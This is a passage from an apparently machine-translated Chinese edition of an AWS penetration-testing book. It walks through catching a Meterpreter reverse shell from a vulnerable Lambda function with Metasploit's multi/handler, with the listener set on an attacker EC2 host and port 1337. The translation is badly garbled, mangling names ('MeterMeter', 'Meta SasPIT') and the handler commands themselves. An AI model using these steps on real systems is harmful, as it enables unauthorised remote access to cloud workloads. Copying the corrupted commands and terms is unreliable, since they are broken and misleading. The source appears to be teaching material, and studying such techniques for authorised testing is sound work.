 正如你所看到的，在 Lambda 中获得一个外壳可能很有趣，但对毫无戒心的企业来说也可能是危险的。解决这一问题的一个很好的方法是在网络中部署监控解决方案，如网络预防和检测系统，这些设备具有检测出网络的错误流量的出口规则，以及查看进入的数据包的入口规则。关于 AWS，**CloudTrail**是一个很好的资源，可以在尝试检测 AWS 环境的流量时使用。

在本书中，我们已经讨论了很多关于 Metasploit 的内容，现在让我们看看如何将 Metasploit 与 Lambda 结合使用。我们将研究如何利用 Metasploit 中的处理程序来捕获会话。

重要提示

会话是在 Metasploit 中已挂接的连接。

## 与 Metasploit 和 Lambda 玩得开心

现在，我们了解如何用 Python 和 AuthT1，lambda 创建 shell 脚本，让我们来看看如何使用 Meta SasPIT 来获得类似的结果！在这次演习中，我们可以使用与以前相同的有效载荷；但是，如果重新启动实例或使用不同的 EC2，则可能需要更改实例 DNS 名称。

在我们开始之前，让我们讨论一下我们将要做什么；记住，最好在执行之前制定一个计划，即使这个计划很小！例如，我们需要使用内置在 Metasploit 中的**处理程序**。处理程序只是简单地混合到有效负载中来处理和监视连接，就像我们使用**netcat**建立连接一样。当我们使用 Lambda 函数设置反向 shell 时，我们了解了**netcat**。

由于我们之前在[*第 3 章*](03.html#_idTextAnchor098)*中使用过 Metasploit，探索 Pentesting 和 AWS*，因此无需讨论 Metasploit 或如何启动它。然而，我们需要确保使用正确的有效载荷。以下步骤将展示如何使用 Python 负载设置处理程序，该负载将捕获来自易受攻击的 Lambda 函数的连接。

启动 Metasploit 并输入以下命令以开始设置处理程序：

$use 漏洞利用/多重/处理程序

$set-payload-python/meterpeter/reverse\u-tcp

$set lhost<<ec2 instance="" dns="">></ec2>

$set lport 1337

$run

一旦开始运行处理程序，处理程序将进入**监听**模式，并开始等待传入连接。这与**netcat**的工作原理类似，只是我们在解释 shell 时使用了 MeterMeter，而不是与 shell 和**netcat**连接时使用的默认 Bash shell。MeterMeter 外壳比**netcat**连接功能强大得多，因为它们提供了大量的模块，您可以在 MeterMeter 外壳中加载这些模块。我们将在[*第 9 章*](09.html#_idTextAnchor381)**中了解更多关于它的信息，包括与 Metasploit 的现实生活 Pentesting 等等！*。*

现在，我们的侦听器正在运行，请返回易受攻击的 Lambda 函数并对其进行测试，然后尝试连接到 MeterMeter 侦听器。如果一切顺利，你将有一个舞台，然后是一个会议。您的会话是您与目标的交互式 shell：

![Figure 7.11 – Obtaining a reverse shell via Meterpreter ](image/Figure_7.11_B15630.jpg)

图 7.11–通过流量计获得反向外壳

太好了，现在我们在 Lambda 实例上有一个通过 MeterMeter 的交互 shell。如果此 Lambda 实例与其他资源连接，则会存在旋转的可能性–但是，在本例中，我们不太担心这一点。在[*第 9 章*](09.html#_idTextAnchor381)*中会有更多关于旋转的内容，真实生活中与 Metasploit 的 Pentesting 等等！*。现在，您可以随意移动 shell，尝试不同的有效负载，甚至扩展您的环境，看看您还可以做些什么！

完成本书的这一部分真是太棒了！本章重点介绍了 pentesting 中使用的一些新技术，您还学习了如何在 Lambda 上获得 re 韵文外壳！

# 总结

在本章中，我们介绍了如何在 AWS 中创建 Lambda 函数及其功能。我们还研究了 Lambda 的易受攻击问题，以及这些问题可能给未能隔离这些问题的组织带来的漏洞。创建反向 shell 有助于我们了解如果环境中存在易受攻击的 Lambda 函数，可能会出现的问题的严重性。

在下一章中，我们将开始研究我们如何攻击 AWS API，以及它们如何处理请求，并讨论用于保护请求的技术。

# 进一步阅读

*   交互式 Lambda shell:[http://www.lambdashell.com/](http://www.lambdashell.com/)
*   Metasploit 处理程序：[https://www.rapid7.com/db/modules/exploit/multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler)